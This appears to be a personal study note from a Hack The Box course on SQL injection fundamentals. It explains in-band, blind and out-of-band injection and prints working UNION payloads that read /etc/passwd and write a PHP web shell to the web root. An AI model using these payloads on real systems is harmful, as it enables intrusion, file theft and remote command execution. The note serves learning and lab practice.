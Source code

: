# Sql Injection fundamentals
#HTB #SQLi #database #webapplication 

SQL injection is very similar in nature to HTML injection and XXS where user input have not been properly validated before sent to the backend. This vulnability allow a hacker to make unintented query to the database and get a response or information they were not suppose to have access too. This is often see when escape character are use such as *\"* or *\' *. Once the hacker have the ability to execute query on the server function such as union and stacked allowed a hacker to execute both the indented command but also a new query. 

This is a focus on in-band SQLi. 
Before starting to do SQLi you need to validate that the web application is vulnerable. This is done by testing the input field with different type of inputs. 
Once a input field have been identified as vulnerable to injection, to add additional information from the input field union is used to add query to the all ready existing one.
````sql
cn' UNION select 1,user(),3,4-- -
````

This command input cn and escape with ', it will then create a new select using union where the output is the user context the web application is running in. 

This also give us the possibility to read files from the system using *LOAD_FILE*
```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

If we are lucky enough and the user have high enough priv we can also write to files.  
```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
First we test if the user have enough priv if it does we can write to files and there by create a shell on the webserver. 
```sql
cn' union select "",'<?php system($_REQUEST[cmd]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

## Database 
[[Database]] is way of storing information which can easily to query up again, made backup of, security controls. etc. There exists two type of database relative and non-relative databases. 
Relative database stores information in tables and row which can easily to query by using [[SQL]] to retrieve the information. 
Non-Relative database uses JSON instead for storage the information where there is a key pair value to every insert. Which have to be used to retrieve the information. 

## Type of SQLi
When it comes to [[SQL injection]] there exists two type in-band, Blind and Out-of-band. 
in-band SQLi is when the web application return the sql output directly to the front-end. 
In-band have two sup-types union based is when the return the output to us and Error based is when the output is returned in form of error messages. 

Blind injection is when the SQL output does not get return to us and we have to make assumption about the data. here we have two options boolean which return true if the statement is correct and false is it not, and time-based where we use the sleep function if the statement is correct. 

And finally we have out-of-band when we direct the output to a remote location such as DNS records. 




## Cheet sheet
[[cheatsheet-33]]
[PayloadsAllthingsSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#using-tor-with-sqlmap)
